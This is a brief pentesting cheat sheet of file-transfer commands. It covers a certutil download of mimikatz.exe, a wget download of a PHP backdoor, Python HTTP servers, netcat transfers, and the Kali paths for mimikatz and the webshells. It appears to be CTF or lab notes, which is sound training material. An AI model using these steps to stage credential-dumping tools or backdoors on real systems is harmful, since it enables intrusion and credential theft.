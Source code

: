 **To download file from a server (windows cmd)**

- certutil -urlcache -f <webserver-addr> <filename>
- certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe

**To download file from a server (linux cmd)**

- wget http://192.196.45.2/php-backdoor.php

**Setup a server**

- python3 -m http.server 80
- python -m SimpleHTTPServer 80

**Transferring files**

- nc -nvlp 1234 > test.txt (recepient)
- nc -nv ip port < test.txt (sender)

**Useful file locations**

- /usr/share/windows-resources/mimikatz/x64
- /usr/share/webshells/php/